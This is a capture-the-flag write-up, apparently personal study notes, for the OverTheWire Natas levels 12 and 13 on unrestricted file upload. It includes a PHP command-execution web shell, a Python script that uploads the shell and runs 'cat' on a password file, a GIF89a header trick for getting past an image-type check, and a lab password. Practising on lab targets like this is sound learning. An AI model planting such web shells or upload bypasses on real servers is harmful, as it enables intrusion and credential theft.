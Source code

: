
2024-07-14 18:54

Source:   #natas #web #py 

Tags: [[Local File Inclusion & Command Injection]]
## Natas12

we have a unrestricted file upload functionality 

create a [[php]] file named `revshell.php` with the following contents, we will modify the `c` parameter later 
```
<?php
	system($_GET['c']);
?>
```

```
import requests
username = 'natas12'
password = 'yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB'

url = 'http://natas12.natas.labs.overthewire.org/'
sessions = requests.Session()

#response = sessions.post(url,files = {"uploadedfile" : open('revshell.php','rb')},data = {"filename": "revshell.php"},auth = (username,password))

response = sessions.get(url + 'upload/kx42yjw6zv.php?c=cat /etc/natas_webpass/natas13',auth = (username,password))

print(response.text)
```
1. commented code uploads our created `php` file  using `.post` method  
2. the output of the commented code will reveal the newly created file name on the server of the file that we uploaded 
3. in our case the path is `upload/kx42yjw6zv.php`
4. we append the path to the `url` and try executing commands by adding our commands to the previously defined `c` parameter.
## Natas13

similar to natas12, here we have a `php` module named `exif_imagetype` that [[image upload]]checks if the file uploaded is an image and within the size limit of 1kb 

`exif_imagetype` checks for file signatures

we add `GIF89a` at the start of our payload `php` file making the contents of the file as 
```
GIF89a
<?php
system($_GET['c']);
?>
```

rest of the process is same as natas12

### References
https://www.youtube.com/watch?v=fqwxYowJA0c